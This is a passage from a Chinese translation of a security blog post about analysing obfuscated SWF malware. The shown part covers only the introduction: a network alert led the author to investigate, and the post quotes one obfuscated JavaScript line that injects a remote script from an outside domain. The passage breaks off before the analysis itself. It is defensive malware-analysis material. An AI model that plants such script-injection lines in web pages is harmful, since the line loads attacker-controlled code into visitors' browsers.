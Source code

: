 > 原文链接: https://www.anquanke.com//post/id/85098 


# 【技术分享】如何分析经过混淆的SWF


                                阅读量   
                                **193552**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：bittherapy.net
                                <br>原文地址：[https://bittherapy.net/analyzing-obfuscated-swfs/](https://bittherapy.net/analyzing-obfuscated-swfs/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p3.ssl.qhimg.com/t01f16ab68cc609bcb0.jpg)](https://p3.ssl.qhimg.com/t01f16ab68cc609bcb0.jpg)

翻译：[](http://bobao.360.cn/member/contribute?uid=2606886003)[](http://bobao.360.cn/member/contribute?uid=1427345510)[m6aa8k](http://bobao.360.cn/member/contribute?uid=2799685960)[](http://bobao.360.cn/member/contribute?uid=2606886003)

预估稿费：200RMB（不服你也来投稿啊！）

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿 

<br style="text-align: left">

**前言**



几天前，我突然收到一个警报，说电脑正在与（不良）域通信并下载SWF文件。我有一些担心，所以，我决定彻底调查一下，看看是否真的感染了恶意软件。

当时，电脑正与NovaSyncs.com进行通信，而后者则通过mine.js发送恶意JS：



```
document.write(unescape("%3Cscript src='http://i.ejieban.com/clouder.js' defer='defer' type='text/javascript'%3E%3C/script%3E"));
```

我进一步深入挖掘： 



```
```